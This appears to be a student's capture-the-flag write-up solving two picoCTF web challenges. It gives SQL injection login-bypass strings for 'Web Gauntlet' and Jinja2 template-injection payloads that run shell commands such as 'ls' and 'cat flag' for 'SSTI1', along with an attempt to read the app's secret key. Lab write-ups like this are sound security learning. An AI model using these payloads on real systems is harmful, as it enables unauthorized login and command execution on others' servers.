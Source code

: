 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:58384/ http://shape-facility.picoctf.net:58384/filter.php

## Solution:

Open the given link ```http://shape-facility.picoctf.net:52907/``` 
We have to login as admin but we don’t have a password 

### Test login:
**Username-** admin
**Password-** hola

The SQL statement printed is 
```SELECT * FROM users WHERE username='admin ' AND password=‘hola'``` 

Using the website given ```http://shape-facility.picoctf.net:52827/filter.php``` it shows ```Round1: or```

### Round 1/5:

**Username-** admin' --
**Password-** ummmm 

```-- ``` comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin' --' AND password=‘ummmm'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows  ```Round2: or and like = --```

After this ```-- ``` stopped working so Im assuming the things that are on ```http://shape-facility.picoctf.net:52827/filter.php``` are what can no longer be used. 

### Round 2/5:

**Username-** admin’/*
**Password-** idk

```/* ``` is a multi-line comment which comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin'/*' AND password=‘idk'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round3: or and = like > < --```

### Round 3/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username 

**Username-** admin’/*
**Password-** k

The query is now,
```SELECT * FROM users WHERE username='admin'/*' AND password='k'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round4: or and = like > < -- admin```

### Round 4/5:

**Username-** admi'||'n'/*
**Password-** yes

Use ```||``` to concatenate ```admi``` and ```n``` so the query is now,
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘yes'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round5: or and = like > < -- union admin```


### Round 5/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username

**Username-** admi'||'n'/*
**Password-** done

The query is now, 
```SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘done'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, we finally get the flag. 

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:
- ```--``` is used in SQl for single line comments
- ```/*``` is used for multi-line comments
- ```||``` is used to concatenate two strings 

## Resources:
- [https://www.w3schools.com/sql/sql_comments.asp](url)
- [https://www.geeksforgeeks.org/sql/sql-concatenation-operator/](url)





# 2. SSTI1 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

**website:*** [http://rescued-float.picoctf.net:53419/](url)

## Solution 

The hint mentions "Server Side Template Injection". 

- In this case, we use the template engine ```Jinja2```

In order to find which template engine is being used I tried a hit and trial method by inputting ```{{7*7}}```. This results in a ```49``` which means the syntax works. 
This means that the server evaluates ```{{   }}``` so it could possibly be ```Jinja2``` or ```Twig```.

I tried ```Jinja2``` first and it worked. 

- I listed the files on the server to find the name of the file with the flag by using, ```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}```. It was seen that ```flag``` was a file name. 
<img width="1458" height="709" alt="Screenshot 2025-10-24 at 12 59 29 AM" src="https://github.com/user-attachments/assets/13ef2ea2-d810-4bf2-97a5-ac3e9c4b7fc4" />

- I used ```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}``` from the below mentioned link to get the flag

## Flag:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```

## Concepts learnt:
- A **server side template injection** is a vulnerability that occurs when a server renders user input as a template of some sort. It basically replaces certain placeholders according to a certain template.
- **Template engines** take a template and fill in placeholders with actual data to create the final document

## Notes:

- I tried leaking the secret key using ```{{config[“SECRET_KEY"]}}``` but it just returned ```None```
- ```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('flag')['read']()}}``` work but doesnt print the flag which is how i knew i had to use ```cat flag``` for the id

## Resources:
- [https://medium.com/@bootstrapsecurity/server-side-template-injection-ssti-advanced-exploitation-techniques-2d8ccdf6270f](url)
- [https://onsecurity.io/article/server-side-template-injection-with-jinja2/](url)
  





